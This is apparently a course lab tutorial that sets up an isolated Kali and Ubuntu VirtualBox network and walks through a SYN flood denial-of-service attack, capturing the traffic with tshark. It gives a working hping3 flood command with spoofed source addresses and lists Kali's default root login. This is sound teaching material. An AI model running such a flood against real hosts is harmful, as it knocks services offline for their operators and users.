




Executing a SYN Flood Denial of Service Attack
================================================


Prerequisits
-----------------
Vagrant and VirtualBox installed and properly configured.

Download Kali and Setup VirtualBox
-----------------------------------
1. Go https://www.offensive-security.com/kali-linux-vmware-arm-image-download/
2. Download the latest 64-bit version in the Prebuilt Kali Linux VirtualBox Images section.
3. Unzip the file. There should be a single .OVA file.
4. In VirtualBox, click File > Import Appliance.

&nbsp;

5. Select the .OVA file you just downloaded.

&nbsp;

6. The default virtual machine configuration allocates 2GB of RAM. Lower the amount of RAM if you computer only has 4GB of RAM installed.

&nbsp;

7) After the virtual machine has been creted, right-click on the Kali VM, choose Settings > Network. Change Adapter 1 from `NAT` to `Internal Network`. Click `OK` to save the settings. The Internal Network option allows your VM to communicate with other virtual machines on the host, but it does not allow you to connect to the Internet.

Basic Kali Configuration
-------------------------------
Kali will boot up without any installation required.

1. At the login screen, click and drag up to unlock the window.
2. For the user, enter `root`.
3. The password is `toor` (root backwards).
4. Open a command terminal. Run the following command to set the IP address and subnet mask.

```
ifconfig eth0 192.168.2.5 netmask 255.255.255.0
ifconfig
```

The output of `ifconfig` should look similar to the following figure. The IP address and subnet mask should match.

&nbsp;

Keep the terminal window open until you verify connectivity with the victim.

Victim Client Configuration
------------------------------
In this section, you will create a client VM that will be exploited.

1. Create a new folder on your computer.
2. Hold shift, right-click, and choose "Open command window here."
3. Run the following command to create a Vagrantfile:

```
vagrant init ubuntu/Trusty64
```

4. You should see the following output:

```
Management with Untangle>vagrant init ubuntu/trusty64
A `Vagrantfile` has been placed in this directory. You are now
ready to `vagrant up` your first virtual environment! Please read
the comments in the Vagrantfile as well as documentation on
`vagrantup.com` for more information on using Vagrant.
```

5. Edit the Vagrantfile in Notepad or any other text editor. Replace the entire contents of the file with the following text:

```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure(2) do |config|
  config.vm.box = "ubuntu/trusty64"
  config.vm.network "private_network", ip: "192.168.2.10", virtualbox__intnet: true
end
```

6. Save the file.
7. Run the following commands from the command prompt:

```
vagrant up
vagrant ssh
```

8. Run `ifconfig` to see the client's configuration. The IP address of `eth1` should be 192.168.2.10/24.

```
ifconfig
```

You should see output similar to the following. The IP address and subnet mask should match the screenshot.

&nbsp;

If the IP address was not set properly, run the following command to update it now.

```
ifconfig eth1 192.168.2.10 netmask 255.255.255.0
```

To capture network activity, you will need to install `tshark`---a command line version of Wireshark. Run the following command to install it, conforming your choice when prompted.

```
sudo apt-get install tshark
```

Verify Connectivity
----------------------
The Kali instance and the victim instance should be on the name subnet. Test basic connectivity from each machine using `ping`.

From the victim, run the following command.

```
ping 192.168.2.5
```

The ping should be successful.

&nbsp;

Run the following command in Kali.

```
ping 192.168.2.10
```

&nbsp;

The ping should be successful. Once your IP configuration is correct, you can close the terminal window in the Kali instance by running `exit`.

Ensure that the instances can ping each other before proceeding to the next step. If the computers cannot communicate, verify and correct the following settings:

  - Ensure the IP addresses and subnet masks are correct (192.168.2.10/24 for eth1 on victim, 192.168.2.5/24 for eth0 on Kali).
  - Ensure that the network adapters are set to "internal" for eth1 on victim and eth0 on Kali.
  - If you enabled any firewalls on the victim or Kali, disable them.

Executing a SYN Flood Attack with hping3
--------------------------------------------
1. In the `victim`, run the following command.

```
tshark -i eth1 -a duration:100
```

2. In Kali, run the following command to start an attack. (Make sure `-S` uses a capital `S`.) Press control+c to stop the command after half a second to a second to stop the attack (unless you want to lock up your computer--remember, this is a denial of service attack with the purpose of making a machine unresponsive.)

```
root@kali:~# hping3 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.2.10
```

The options mean:
  - `d`: data size
  - S: send SYN only
  - w: TCP window size
  - p: port
  - rand-source: spoof the source IP address
  - 192.168.2.10: the target of the attack

The output on the victim's console should look similar to the following figure.

&nbsp;

How many packets were sent in the duration of your attack? How many packets were sent per second?

Cleanup
---------------------------------
In Kali, close all windows and close the machine. Save the machine state or power it off---the decision is up to you.

If you want to save your Ubuntu server, run the following command to exit the SSH session and save the machine state. (Note--no need to enter the dollar sign or greater-than symbols--they merely indicate the prompt that you should see when running the commands.)

```
$ exit
> vagrant suspend
```

If you want to delete your Ubuntu server, run the following commands to exit the SSH session and delete the machine completely.

```
$ exit
> vagrant destroy
```